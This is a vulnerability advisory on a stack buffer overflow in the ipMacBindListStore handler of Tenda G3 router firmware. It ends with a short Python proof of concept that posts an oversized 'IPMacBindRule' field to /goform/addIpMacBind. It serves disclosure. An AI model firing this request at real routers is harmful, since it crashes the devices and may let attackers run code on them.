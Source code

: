 # Tenda G3 ipMacBindListStore
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the ipMacBindListStore function.
### Vulnerability details
Stack-based buffer overflow in function ipMacBindListStore on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function ipMacBindListStore line 37, it reads in a user-provided parameter, and the variable listStr is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/ipMacBindListStore-1.png)
![](images/ipMacBindListStore-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addIpMacBind'
payload = {
    "IPMacBindRule": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
